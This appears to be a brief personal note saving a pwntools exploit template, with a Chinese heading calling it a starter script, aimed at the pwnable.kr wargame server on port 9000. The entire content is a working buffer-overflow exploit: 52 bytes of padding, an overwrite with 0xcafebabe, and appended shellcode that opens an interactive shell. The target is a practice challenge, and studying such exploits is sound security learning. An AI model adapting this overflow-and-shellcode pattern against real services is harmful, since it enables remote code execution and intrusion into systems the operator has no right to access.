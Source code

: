 #### Record some expolit of  payload.

pwntools起手式

<code>
from pwn import *
# 0xcafebabe
r = remote('pwnable.kr', '9000')
shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52
payload += buf
payload += shell

r.sendline(payload)

r.interactive()
</code>
